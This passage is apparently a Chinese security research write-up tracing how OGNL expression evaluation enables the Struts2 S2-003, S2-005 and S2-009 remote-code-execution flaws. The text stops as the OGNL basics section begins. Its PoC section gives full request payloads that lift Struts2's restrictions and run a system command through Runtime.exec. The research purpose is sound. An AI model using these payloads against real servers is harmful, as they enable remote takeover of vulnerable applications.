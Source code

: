 # 浅析OGNL表达式求值（S2-003/005/009跟踪调试记录）

![Category](https://img.shields.io/badge/category-security_research-blue.svg)
![Research](https://img.shields.io/badge/research-web_security-blue.svg)
![Language](https://img.shields.io/badge/lang-java-blue.svg)
![Vuln Component](https://img.shields.io/badge/vuln_component-struts2-red.svg)
![Vuln Type](https://img.shields.io/badge/vuln_type-rce-red.svg)
![Tag](https://img.shields.io/badge/tag-ognl-green.svg)
![Timestamp](https://img.shields.io/badge/timestamp-1500742098-lightgrey.svg)
![Progress](https://img.shields.io/badge/progress-100%25-brightgreen.svg)

<sub>* 在分析Struts2历年RCE的过程中，对OGNL表达式求值（OGNL Expression Evaluation）的执行细节存在一些不解和疑惑，便以本文记录跟踪调试的过程，不对的地方请指正。</sub>

## 前情简介

- S2-003对`#`等特殊字符编码，并包裹在字符串中，利用OGNL表达式求值`(one)(two)`模型绕过限制
- S2-005在基于S2-003的基础上，通过控制`allowStaticMethodAccess`绕过S2-003修复方案
- S2-009通过HTTP传参将Payload赋值在可控的action属性 *（`setter()`/`getter()`）* 中，再利用额外请求参数，设置其名称为『无害』OGNL表达式绕过`ParametersInterceptor`中对参数名的正则限制，并成功执行Payload

### PoC样本

- S2-003

    `(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew\u0020java.lang.Boolean(false)))&(asdf)(('\u0023rt.exec(\'calc\')')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1`

- S2-005

    `('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew\u0020java.lang.Boolean(false)))&(asdf)(('\u0023rt.exec(\'calc\')')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1`

- S2-009

    `foo=(#context['xwork.MethodAccessor.denyMethodExecution']=new java.lang.Boolean(false),#_memberAccess['allowStaticMethodAccess']=new java.lang.Boolean(true),@java.lang.Runtime@getRuntime().exec('calc'))(meh)&z[(foo)('meh')]=true`

## 关于OGNL

### 一点点基础概念

1. `$`，`#`，`@`和`%`
    - `$`
